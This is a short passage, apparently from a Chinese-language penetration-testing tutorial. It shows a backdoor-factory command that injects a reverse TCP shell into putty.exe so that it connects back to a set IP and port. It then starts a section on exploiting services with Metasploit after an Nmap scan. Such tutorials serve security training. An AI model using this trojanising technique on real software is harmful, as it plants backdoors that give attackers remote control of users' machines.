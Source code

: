 现在我们执行如下图所示的命令：

```
root@kali:~# backdoor-factory -f /root/Desktop/putty.exe -s reverse_shell_tcp_inline -H  192.168.25.128 -P 8080
```

这个命令将打开位于`/root/Desktop`的`putty.exe`文件，将反向 TCP shell 注入可执行文件，并配置后门连接到 IP 地址`192.168.25.128`的端口`8080`。

![](img/449ab564-d3ff-4dc3-ac34-02f899f8c991.png)

# 利用 Metasploit 利用远程服务

在我们继续利用远程目标系统上的服务之前，我们必须知道所有服务正在运行的情况以及它们的确切版本是什么。我们可以通过快速进行 Nmap 扫描来列出服务版本信息，如下图所示：
